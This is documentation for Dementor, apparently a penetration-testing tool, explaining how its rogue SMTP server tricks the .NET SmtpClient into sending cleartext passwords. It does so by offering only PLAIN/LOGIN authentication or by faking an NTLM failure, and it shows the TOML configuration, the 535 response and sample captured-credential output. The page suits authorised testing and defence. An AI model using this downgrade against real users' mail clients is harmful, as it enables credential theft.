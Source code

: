 .. _example_smtp_downgrade:

SMTP Downgrade Attack
=====================

The SMTP server in *Dementor* supports a mechanism to attempt a *"downgrade"* of an authentication attempt
initiated by a target host. This behavior is controlled by the :attr:`SMTP.Server.Downgrade` setting.

.. warning::

    This attack specifically targets the `SmtpClient <https://learn.microsoft.com/en-us/dotnet/api/system.net.mail.smtpclient?view=net-9.0>`_
    component of the .NET Core platform. Although `DE0005 <https://github.com/dotnet/platform-compat/blob/master/docs/DE0005.md>`_ marks this component
    as deprecated and advises against its use, this example demonstrates how *Dementor* can be configured to simulate various attack scenarios.


Prerequisites
-------------

First, let's understand how a simple email can be sent using PowerShell on Windows. Some tutorials recommend the standard ``SmtpClient``,
which, while deprecated, is still functional in many environments. Here's a typical example:

.. code-block:: powershell

    $EmailTo = "darth.vader@contoso.local"
    $EmailFrom = "luke@contoso.local"
    $Subject = "Revelation"
    $Body = "I am your father"
    $Server = "MAILSRV"
    $ServerPort = 22
    $Username = "darth.vader"
    $Password = "Anakin123!"
    $Message = New-Object System.Net.Mail.MailMessage($EmailFrom, $EmailTo, $Subject, $Body)
    $Client = New-Object System.Net.Mail.SmtpClient($Server, $ServerPort)
    $Client.UseDefaultCredentials = $false
    $Client.Credentials = New-Object System.Net.NetworkCredential($Username, $Password)
    $Client.Send($Message)

By default, the client won't require secure connections unless ``EnableSsl`` is explicitly set.
If NTLM authentication is available, it will be used **but the client may fall back to weaker mechanisms** such as
``PLAIN`` or ``LOGIN`` if the server offers them or NTLM authentication wasn't successful.


Tricking ``SmtpClient`` into Revealing Cleartext Passwords
----------------------------------------------------------

You can exploit this fallback behavior by configuring *Dementor*'s SMTP server to either accept only plain-text authentication
or simulate a failure after NTLM auth to force the client to downgrade.

1. **Accept only plain authentication (not recommended):**

   Modify the :attr:`SMTP.Server.AuthMechanisms` setting to exclude ``NTLM``:

   .. code-block:: toml

       [SMTP.Server]
       Port = 22
       AuthMechanisms = [ "PLAIN", "LOGIN" ]

   Sample output from *Dementor* after capturing cleartext credentials:

   .. container:: demo

        .. code-block:: console

           SMTP       192.168.56.115            25     [+] Captured Cleartext Password for darth.vader from 192.168.56.115:
           SMTP       192.168.56.115            25     Cleartext Username: darth.vader
           SMTP       192.168.56.115            25     Cleartext Password: Anakin123!

2. **Downgrade after failed NTLM authentication:**

   In environments where clients try NTLM first, you can simulate a failed NTLM attempt and force the client to
   retry using plain-text credentials.

   .. note::

      This only works if the client has the cleartext password available locally. If the credentials are
      provided as NTLM hashes or tokens, the downgrade will fail.

   *Dementor* sends the following response to trigger the fallback:

   .. code-block::

       535 5.7.3 Authentication unsuccessful

   The default Windows SMTP client will retry using cleartext credentials — if they are present.

   .. figure:: /_static/images/smtp-downgrade_wireshark.png
      :align: center
      :alt: Wireshark trace showing SMTP fallback to cleartext auth

      The client reattempts authentication with cleartext credentials after an NTLM failure.

